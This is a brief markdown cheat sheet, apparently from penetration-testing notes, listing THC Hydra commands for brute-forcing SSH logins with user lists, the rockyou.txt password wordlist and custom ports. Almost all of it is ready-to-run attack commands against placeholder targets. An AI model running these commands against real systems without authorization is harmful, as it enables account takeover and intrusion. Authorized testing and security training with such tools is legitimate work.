 # THC Hydra
## Description
Brute force login.  This is for brute forcing ssh

Default port is 22 in all cases unless specified
## Examples
### Brute force SSH for several users with rockyou.txt password list
```
sudo hydra -L users.txt -P /usr/share/wordlists/rockyou.txt $IP ssh
```
### Brute force SSH for single user with rockyou.txt password list
```
sudo hydra -l $USERNAME -P /usr/share/wordlists/rockyou.txt $IP ssh
```
### Brute force SSH for users with known password
```
sudo hydra -L $user_list -p $password $IP ssh
```
### Brute force SSH on a different port
```
sudo hydra -s $port_number -L $user_list -p $password $IP ssh
```
